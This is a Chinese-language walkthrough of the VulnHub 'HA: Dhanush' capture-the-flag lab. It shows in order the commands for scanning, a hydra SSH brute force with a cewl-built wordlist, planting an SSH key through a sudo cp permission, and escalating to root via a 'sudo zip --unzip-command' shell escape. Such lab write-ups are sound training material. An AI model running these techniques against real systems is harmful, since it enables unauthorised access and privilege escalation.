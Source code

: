 # HA: Dhanush

## 环境

虚拟机平台：VMware Workstation Pro

攻击机：Kali（IP：192.168.253.136）

靶机：Dhanush（IP：192.168.253.141）

下载：https://www.vulnhub.com/entry/ha-dhanush,396/

## Let's go

```
nmap -A -p- 192.168.253.141
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-01.png)

> **对网页进行浏览,然而并没有发现任何信息,我们进行枚举**

```
dirb http://192.168.253.141/
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-02.png)

> **然而并没有发现什么有用的信息,因此怀疑是不是跟SSH有关**

```
cewl http://192.168.253.141/ -w 1.txt		# 爬取网站生成字典
hydra -L 1.txt -P 1.txt  -vV -e ns 192.168.253.141 ssh -s 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-03.png)

```
# username:pinak,password:Gandiv
ssh pinak@192.168.253.141 -p 65345
sudo -l
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-04.png)

> **我们需要想办法切换到sarang用户,因此可以使用cp命令将SSH密钥复制到他的.ssh目录中**

```
ssh-keygen
cd .ssh/
chmod 777 id_rsa.pub
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-05.png)

```
cp id_rsa.pub ../
cd ../
sudo -u sarang /bin/cp ./id_rsa.pub /home/sarang/.ssh/authorized_keys
ssh sarang@127.0.0.1 -p 65345
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-06.png)

>**切换到sarang用户,发现root权限的zip命令**

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-07.png)

```
touch get
sudo zip /tmp/get.zip /home/sarang/get -T --unzip-command="sh -c /bin/bash"
cd /root
cat flag.txt
```

![](https://github.com/CHN-Han/Promote/tree/master/VulnHub/img/HA：Dhanush-08.png)